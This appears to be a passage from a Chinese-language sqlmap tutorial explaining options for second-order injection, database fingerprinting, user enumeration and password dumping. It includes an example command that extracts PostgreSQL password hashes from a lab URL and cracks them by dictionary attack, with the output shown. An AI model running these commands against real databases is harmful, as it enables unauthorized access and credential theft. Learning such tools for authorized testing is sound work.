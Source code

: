 参数：`--second-order`

有些时候注入点输入的数据看返回结果的时候并不是当前的页面，而是另外的一个页面，这时候就需要你指定到哪个页面获取响应判断真假。--second-order后门跟一个判断页面的URL地址。
列数据
合并起来使用：`-current-user --current-db --is-dba --users`
标志

参数：`-b,--banner`

大多数的数据库系统都有一个函数可以返回数据库的版本号，通常这个函数是version()或者变量@@version这主要取决与是什么数据库。
用户

参数：`-current-user`

在大多数据库中可以获取到管理数据的用户。
当前数据库

参数：`--current-db`

返还当前连接的数据库。
当前用户是否为管理用

参数：`--is-dba`

判断当前的用户是否为管理，是的话会返回True。
列数据库管理用户

参数：`--users`

当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户。
列出并破解数据库用户的hash

参数：`--passwords`

当前用户有权限读取包含用户密码的表的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

例子：
```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```
可以看到sqlmap不仅识别出数据库的用户跟密码，同时也识别出是PostgreSQL数据库，并询问用户是否采用字典爆破的方式进行破解，这个爆破已经支持Oracle和Microsoft SQL Server。
